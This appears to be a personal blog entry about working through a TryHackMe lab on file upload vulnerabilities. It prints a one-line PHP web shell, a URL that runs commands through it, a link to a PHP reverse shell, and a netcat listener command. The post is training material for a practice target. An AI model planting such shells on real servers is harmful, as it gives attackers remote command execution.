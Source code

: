 ```yaml
---
title: Day 23
date: 2022-05-06
layout: post.njk
---
```


{{ page.date.toDateString }}
Today I'm wokring on the [Upload Vulnerabilities](https://tryhackme.com/room/uploadvulns) module. I think really understanding how to take advantage of file upload vulnerabilities could be a huge help in finding bug bounties.

Theres a few different things you can do with file upload vulnerabilites:
- Overwriting existing files on a server
- Uploading and Executing Shells on a server
- Bypassing Client-Side filtering
- Bypassing various kinds of Server-Side filtering
- Fooling content type validation checks

## Overwriting Existing Files
The first exercise is overwriting a file. The first site has a file upload with a picture for the background. I looked at the source for the image and it was `images/mountains.jpg` so I copied a local image to have the same name `mountains.jpg` and uploaded it and got the flag.

## Remote Code Execution
The second exercise was taking advantage of an RCE. The two main options:
- Web shells
- Reverse Shells

### Web Shell
A webshell would be uploading a file with code that is the same as the backend. Then referencing it and using the ulr to pass commands. For example I use gobuster to do some directory enumeration. I see that there is a upload directory and I make the assumption that files are uploaded there. I assume the backend is running PHP.  so I upload `webshell.php` which is just:

>`<?php`
>
>    `echo system($_GET["cmd"]);`
>
>`?>`

the I use the url `/uploads/webshell.php?cmd=id;whoami;ls` and view the page and I'll see the result of those commands being run. From here we can do anything including upgrading to a reverse shell.

### Reverse Shell
Is when you have an interactive shell in a terminal. The process for doing this is essentially the same as the webshell you take a file like [Pentest Monkey reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) that matches the backend code being used by the application and input your IP. You open a netcat listener on the correct port using `nc -lvnp 1234`. You upload the file, then navigate to the file in your browser. This time the browser will hang but if you look back at the terminal you should have a connection.

### Practical
In this exercise I start by running gobuster to enumerate the directories using `gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

I got the results:
>`/resources`
>
>`/assets`
>
>`/server-status`

I attempted to upload to `/resources` I did both the web shell upload and the reverse shell uploads successfully. 

This seemed like a good palce to stop today so I'll pick up the rest of this tomorrow.

